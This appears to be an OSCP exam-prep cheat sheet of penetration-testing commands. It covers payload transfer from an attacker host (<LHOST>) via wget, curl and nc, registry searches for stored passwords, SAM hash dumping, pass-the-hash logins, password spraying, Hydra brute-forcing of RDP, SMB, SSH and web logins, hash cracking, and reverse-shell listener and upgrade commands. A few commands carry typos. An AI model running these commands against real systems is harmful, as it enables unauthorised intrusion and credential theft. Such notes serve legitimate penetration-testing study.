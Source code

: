 ∂# OSCP-handytools
- https://github.com/seal9055/oscp-notes/blob/main/README.md
- https://github.com/rodolfomarianocy/OSCP-Tricks-2023/tree/main
- https://github.com/Ak500k/oscp-notes?tab=readme-ov-file
- https://zweilosec.github.io/posts/upgrade-linux-shell/
  
# Wordlists
```
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/seclists/Discovery/Web-Content/common.txt
/usr/share/seclists/Discovery/Web-Content/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
```

# Post Exploitation Linux
## File upload
- Starting Web Server
`python3 -m http.server 80`

- Filetransfer
```
wget <LHOST>/<file>
curl http://<LHOST>/<file> -o <output-file>
echo "GET /<file> HTTP/1.0" | nc -n <LHOST> 80 > <out-file> && sed -i '1,7d' <out-file>
```

- Secure Filetransfers
```
on target:  ncat -nvlp <port> --ssl > <out-file>
on kali:  ncat -nv <RHOST> <RPORT> --ssl < <file-to-send>
```

# Passwords
- Use chisel to remotely forward port 445, and use winexe to log in
`winexe -U <user>%<password> //<RHOST> cmd.exe`

- Check for passwords
`reg query HKLM /f password /t REG_SZ /s`
`reg query HKCU /f password /t REG_SZ /s`

- Weak Permissions on Sam Files
`python2 pwdump.py <SYSTEMFILE> <SAMFILE>`

- Cracking the password
`hashcat -m 1000 --force <hash> <wordlist>`

- PTH
`pth-winexe -U '<entire-hash>' //<RHOST> cmd.exe`


# Password Spraying
- Create Password List
`crunchy <length> <length> -t <pw-core>%%%% `

- Spray
`rowbar -b rdp -s <ip>\32 -U users.txt -C pw.txt -n 1`

# Hashcracking
- John
`john --format=<fomrat> --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

- Hashcat
```
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O  
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O -r /usr/share/hashcat/rules/best64.rule  
cat pw | hashcat -r/usr/share/hashcat/rules/best64.rule --stdout > wordlist.txt
```

# Bruteforcing
RDP Brute Force - Hydra
`hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>`

SMB Brute Force - Hydra
`hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb`

SSH Brute Force - Hydra
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>`

HTTP POST Login Form Brute Force - Hydra
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f`

HTTP GET Login Form Brute Force - Hydra
`hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login`

# MISC
SSH Encrypted
`/usr/share/john/ssh2john`

Crack Zip Pw
`fcrackzip -uvDp /usr/share/wordlists/rockyou.txt file.zip`

Tcp Dump
`sudo tcpdump -i tun0 icmp`

Images
- `binwalk <image>`
- `binwalk -Me <image>`

# Upgrade Linux Shell
check python version used in box
`which python python2 python3`

- Method 1: using Python
`python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell`

- Method 2: Using Script
`script -qc /bin/bash /dev/nullscript -qc /bin/bash /dev/null`

# Upgrade Windows Shell
`rlwrap nc -lvnp $port`

# improve presentation of shell i.e. browse command history
`rlwrap nc -lvnp $port`

# Tools to make life easier
-> revshell generator
https://www.revshells.com/ 

-> CyberChef
https://gchq.github.io/CyberChef/

-> urlencoder
https://www.urlencoder.org/

-> octal
http://www.unit-conversion.info/texttools/octal/

-> hex
http://www.unit-conversion.info/texttools/octal/

-> IP converter
https://www.silisoftware.com/tools/ipconverter.php

-> How to Zip and Unzip Files Using PowerShell
https://zweilosec.github.io/posts/zip-unzip-files-powershell/ 
